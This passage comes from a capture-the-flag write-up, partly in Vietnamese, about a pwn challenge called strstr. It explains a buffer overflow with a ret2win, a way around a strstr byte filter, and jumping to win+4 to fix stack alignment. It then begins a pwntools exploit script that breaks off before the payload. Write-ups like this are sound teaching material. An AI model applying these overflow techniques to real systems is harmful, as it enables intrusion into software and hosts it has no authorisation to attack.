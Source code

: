 ```python
# KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}
```

## pwn/strstr

{{< admonition note "Challenge Information" >}}
* 6 solves / 400 pts / by Wan
* **Given files:** 
  * [chall](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EcOEg_DwZalImTfKKKYe-PQB5pYivg-yZved4VwaC8E7vQ?e=UzTYVN)
  * [chall.c](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EYeP36OiA_ZJvskdROPzYv8BCAwCVSnsiYLFV8IQXL-WfQ?e=eA3FL8)
* **Description:** simple description since it’s simple overflow\
**`nc 103.162.14.116 12005`**
{{< /admonition >}}

**Solution**

Đề bài cho chúng là luôn source code, quan sát kỹ thì thấy có bug BOF để ret2win. Nhưng ở hàm **`filter`** có check 1 số string 

```c
if(strstr(buf, "v\x11@") || strstr(buf, "w\x11@") || strstr(buf, "z\x11@") != NULL)
    {
        printf("bypass strstr pls");
        exit(0);
    }
```

Địa chỉ hàm **`win`** nằm ở **`0x401186`** nghĩa là chỉ bị trùng 2 byte **`\x11@`** nên ta sẽ không bị kill. Chương trình có lỗi SIGSEGV do stack layout chưa được căn chỉnh. Vì vậy mình nhảy luôn vào **`win + 4`** để tránh việc **`push rbp`** vào stack. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"
context.binary = exe 

p = process(exe.path)
# p = remote("localhost", 1337)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0])

def sa(*args):
    return p.sendafter(args[0], args[1]) 

def rl(): 
    return p.recvline()

def GDB():
    gdb.attach(p, gdbscript = """
        b* main+127
        continue
```